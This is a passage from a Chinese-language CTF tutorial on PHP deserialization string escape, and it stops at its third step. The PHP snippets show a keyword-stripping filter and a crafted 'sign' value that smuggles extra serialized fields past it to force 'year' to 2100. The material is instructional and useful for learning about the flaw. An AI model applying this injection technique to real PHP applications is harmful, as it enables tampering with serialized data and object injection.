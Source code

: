 
### 第一步

首先我们要明确要逃逸的字符串

在这里要时 `year`为 `2100`，所以我们构造 `payload`

```php
<?php

	function waf($str) {
		return preg_replace("/ctf|flag/i", "", $str);
	}

	$test['name'] = 'cmacckk';
	$test['sign'] = 'test';
	$test['year'] = '2100';

	echo serialize($test) . "     ";
	$tmp = waf(serialize($test));
	echo $tmp;
```

我们需要逃逸这个部分

![php_unseriablize15](phpUnserialize/s15.png)

### 第二步

我们需要在这个字符串之前添加一个字符或字符串

这里我添加一个 `C`

将 `sign`的值改为 `"C;s:4:"sign";s:4:"test";s:4:"year";s:4:"2100";}`

```php
<?php

	function waf($str) {
		return preg_replace("/ctf|flag/i", "", $str);
	}

	$test['name'] = 'cmacckk';
	$test['sign'] = 'C";s:4:"sign";s:4:"test";s:4:"year";s:4:"2100";}';
	$test['year'] = '2100';

	echo serialize($test);
```

运行

![php_unseriablize16](phpUnserialize/s16.png)

### 第三步
